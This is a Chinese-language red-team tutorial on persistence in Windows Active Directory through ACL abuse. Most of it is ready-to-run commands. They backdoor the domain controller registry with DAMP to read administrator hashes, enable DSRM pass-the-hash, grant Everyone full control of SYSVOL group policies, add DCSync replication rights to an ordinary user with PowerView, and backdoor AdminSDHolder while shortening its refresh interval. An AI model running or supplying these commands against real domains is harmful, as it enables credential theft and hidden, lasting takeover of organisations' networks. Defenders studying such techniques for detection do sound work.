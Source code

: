 ### 通过ACL维持域权限

ACL--访问控制列表。用来表示用户（组）权限的列表，包括DACL和SACL。ACL由访问控制实体（ACE，Access Control Entries）组成，每一个ACE可以看作配置的一条访问策略.

- **DACL**

  DACL列表包含了用户和组的列表，以及相应的权限，允许或拒绝。每一个用户或组在任意访问控制列表中都有特殊的权限。

  DACL是安全对象（securable object） 的一个属性，用来表示 安全对象 的访问权限的列表。

  当一个进程试图访问一个安全对象时，系统会检查该指向的DACL中的ACE

- **SACL**

  System Access Control List，定义对象的访问行为记录策略。

![](./media/20200413102324.jpg)

在拥有ACL配置权限的条件下，配置ACL使的普通用户权限也能像高权限一样访问、修改某些对象，从而达到隐蔽维持权限的方法

#### 基于注册表ACL

在域控制器上将hklm的特定键值分配everyone读取权限，可直接读到管理员的hash。可利用[DAMP](https://github.com/HarmJ0y/DAMP)脚本实现。

system权限执行

`Add-RemoteRegBackdoor -ComputerName Ad.CATE4CAFE.com -Trustee 'S-1-1-0' -Verbose`

![](./media/2.jpg)

普通域用户上就可以读取到域控上的本地管理员权限的hash

`Get-RemoteLocalAccountHash -ComputerName ad -Verbose`

![](./media/3.jpg)

此账户hash不允许pth,还需要在域控上修改注册表允许其远程访问

`reg add HKLM\System\CurrentControlSet\Control\Lsa /v DSRMAdminLogonBehavior /t REG_DWORD /d 2`

#### 基于组策略ACL

通过修改组策略文件ACL，使得普通用户具有完全权限，就可以修改组策略模板文件从而修改文件达到权限维持效果。

`cacls C:\Windows\SYSVOL\sysvol\cate4cafe.com\Policies /e /t /c /g "EveryOne":f`

在域机器上便可修改模板文件

![](./media/4.jpg)

修改注册表添加自启动、映像劫持、修改主机账号的委派设置权限SeEnableDelegationPrivilege使得某个用户拥有修改域内所有用户的委派设置从而作为门等。

#### dcsync

向域内的一个普通用户添加如下三条ACE(Access Control Entries)：

```
DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)
```

该用户就可以使用DCSync导出域内用户hash的权限。使用powerview

`Add-DomainObjectAcl -TargetIdentity "DC=cate4cafe,DC=com" -PrincipalIdentity rcoil -Rights DCSync -Verbose`

rcoil用户mimikatz执行dcsync

![](./media/5.jpg)

### AdminSDHolder

同样使用powerview脚本设置

`Add-ObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=cate4cafe,DC=com" -PrincipalIdentity rcoil -Rights All -Verbose`

60分钟后该AdminSDHolder就会应用配置的ACL，指定的用户便可以获得对所有受保护帐户和组的完全管理权限。

也可以通过修改注册表来改变ACL刷新时间

`reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency /t REG_DWORD /d 30`